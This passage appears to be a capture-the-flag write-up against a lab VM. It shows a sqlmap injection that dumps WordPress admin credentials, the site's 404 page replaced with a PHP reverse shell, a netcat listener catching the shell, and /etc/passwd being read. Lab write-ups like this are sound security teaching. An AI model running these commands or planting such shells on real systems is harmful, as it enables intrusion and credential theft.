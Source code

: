 root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit" --dbms=mysql --dump -T users -D wordpress8080

<snip>

Database: wordpress8080
Table: users
[1 entry]
+----------+---------------------+
| username | password            |
+----------+---------------------+
| admin    | SuperSecretPassword |
+----------+---------------------+
{{< / highlight >}}

The admin password for the wordpress site, excellent. As for the other tables,
I didn't find anything useful in them, so I won't post the output here. In that case
I might aswell just login to the wordpress site now. Basically I have full control 
of the wordpress site now, so what should I do? How does a PHP shell sound? Good?
Alright then... `cd /usr/share/webshells/php` and I'm going to use the 
`php-reverse-shell.php` and replace the site's *404* with that.

To do that I need to edit the theme in the admin section, and just
paste in the contents. The I need to open a listening `netcat` session and
browse to a non-existant page on the site.

{{< highlight console >}}
root@kali:/usr/share/webshells/php# nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.103] 43875
Linux Freshly 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 19:36:34 up  5:45,  0 users,  load average: 0.08, 0.03, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ cd /etc 
$ cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
user:x:1000:1000:user,,,:/home/user:/bin/bash
mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
candycane:x:1001:1001::/home/candycane:
# YOU STOLE MY SECRET FILE!